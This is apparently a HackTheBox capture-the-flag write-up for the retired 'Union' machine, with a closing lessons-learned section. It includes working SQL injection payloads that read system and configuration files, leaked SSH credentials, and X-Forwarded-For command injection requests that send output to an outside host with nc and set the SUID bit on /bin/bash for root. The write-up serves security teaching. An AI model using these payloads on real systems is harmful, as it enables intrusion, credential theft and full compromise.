# Union

```
Platform    : HackTheBox
OS          : Linux
Difficulty  : Easy
Category    : SQL Injection / Command Injection
IP          : 10.129.96.75
```

---

## Summary

Initial access was gained through a blind-turned-visible SQL injection
in a web form's `player` parameter, which allowed dumping database
contents and, more importantly, reading arbitrary files off the host
via `LOAD_FILE()`. That access was used to solve an in-app "challenge"
that whitelisted the attacker's IP in the server's firewall, exposing
SSH. Credentials leaked from the site's own `config.php` (also read
via the SQLi) provided SSH access. From there, a command injection
vulnerability in a firewall-management PHP script allowed executing
commands as `www-data`, which turned out to have unrestricted
passwordless `sudo` — the actual path to root.

---

## Reconnaissance

```
nmap -p- -sS --min-rate 5000 -vvv -n -Pn --open 10.129.96.75 -oN scan.txt
nmap -p 80 -sCV 10.129.96.75
```

Key findings:

- **Port 80** — nginx 1.18.0 (Ubuntu)
- No other ports were open at this stage — SSH was not yet exposed
  (this becomes relevant later: the box uses `iptables` to restrict
  SSH access to whitelisted IPs only).

---

## Enumeration

The site presented a "Player Eligibility Check" form.



Testing the `player` parameter for SQL injection:

```
admin' order by 1-- -
admin' union select database()-- -
```

The response leaked the current database name (`november`) directly
in the page text:



Since the injection point reflected data back into the response, it
was extended to read arbitrary files via `LOAD_FILE()`:

```
admin' union select load_file("/etc/passwd")-- -
```



This revealed two relevant system users: `htb` and `uhc`.

Tables in the `november` database were enumerated:

```
player=admin' union select group_concat(table_name) from information_schema.tables where table_schema='november'-- -
```




The `flag` table stood out. Its columns were enumerated:

```
player=admin' union select group_concat(column_name) from information_schema.columns where table_schema='november' and table_name='flag'-- -
```




And its content extracted:

```
player=admin' union select group_concat(one) from flag-- -
```




This returned a challenge code (`UHC{F1rst_5tep_2_Qualify}`), which
was meant to be submitted through the site itself.

---

## Enabling SSH Access

The code was submitted at `/challenge.php`:



Submitting it redirected to `firewall.php`, which granted the
requesting IP address SSH access on the server:



Confirmed independently:

```
nmap -p22 10.129.96.75
```

```
22/tcp open  ssh
```

This confirmed `iptables` was actively filtering SSH access by
source IP, and that this in-app "challenge" was the intended
(if unconventional) way to whitelist an attacker's own address.

---

## Foothold

With file read access already established via the SQLi, the site's
own database configuration file was read directly:

```
player=admin' union select load_file("/var/www/html/config.php")-- -
```




This exposed valid credentials for the `uhc` system user:

```
uhc : uhc-11qual-global-pw
```

Used directly for SSH access:

```
ssh uhc@10.129.96.75
```

From here, the user flag was accessible.

---

## Privilege Escalation

Reviewing the web application's source as `uhc` revealed
`firewall.php` — the same script responsible for whitelisting IPs
during the earlier challenge step:

```php
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
  $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
} else {
  $ip = $_SERVER['REMOTE_ADDR'];
};
system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
```

The `X-Forwarded-For` header value is passed directly into a shell
`system()` call with no sanitization — a straightforward command
injection vector, exploitable by anyone who can reach the endpoint
with a valid session cookie (already available as `uhc`):

```bash
curl -s -X GET http://localhost/firewall.php \
  -H "X-FORWARDED-FOR: 1.1.1.1; whoami | nc 10.10.14.143 443;" \
  -H "Cookie: PHPSESSID=<valid_session>"
```

```
www-data
```

This gives command execution as `www-data` — not root yet, and not
inherently more privileged than `uhc`, but a different identity worth
checking for its own permissions. Checking `sudo -l` in the same way:

```bash
curl -s -X GET http://localhost/firewall.php \
  -H "X-FORWARDED-FOR: 1.1.1.1; sudo -l | nc 10.10.14.143 443;" \
  -H "Cookie: PHPSESSID=<valid_session>"
```

```
User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
```

This is the actual privilege escalation path: `www-data` can run
**anything** as root, with no password. Abused directly by setting
the SUID bit on `/bin/bash`:

```bash
curl -s -X GET http://localhost/firewall.php \
  -H "X-FORWARDED-FOR: 1.1.1.1; sudo chmod u+s /bin/bash;" \
  -H "Cookie: PHPSESSID=<valid_session>"
```

```
uhc@union:/var/www/html$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
uhc@union:/var/www/html$ bash -p
bash-5.0# whoami
root
```

`bash -p` preserves the effective UID from the SUID bit instead of
dropping it, giving a root shell directly.

---

## Lessons Learned

- A SQL injection that only seems to leak database contents is often
  underestimated — `LOAD_FILE()` turned this into arbitrary file read
  on the host, which is what actually led to credentials and SSH
  access, not the database data itself.
- Application-level "gamified" mechanics (a challenge flow that grants
  network access) are still just code, and worth reading as carefully
  as any other endpoint — the firewall whitelist wasn't a security
  boundary, it was a feature with its own bug.
- User-controlled HTTP headers (`X-Forwarded-For` here) passed into
  shell commands are a classic and still very common command injection
  vector — always worth checking when reviewing source that shells out.
- Getting code execution as a different low-privilege user (`www-data`)
  isn't privilege escalation by itself — the real escalation came from
  checking that user's own `sudo` permissions, which is a step worth
  taking on every new user context gained, not just the first one.

---

<sub>Write-up published after machine retirement, per HackTheBox disclosure policy.</sub>
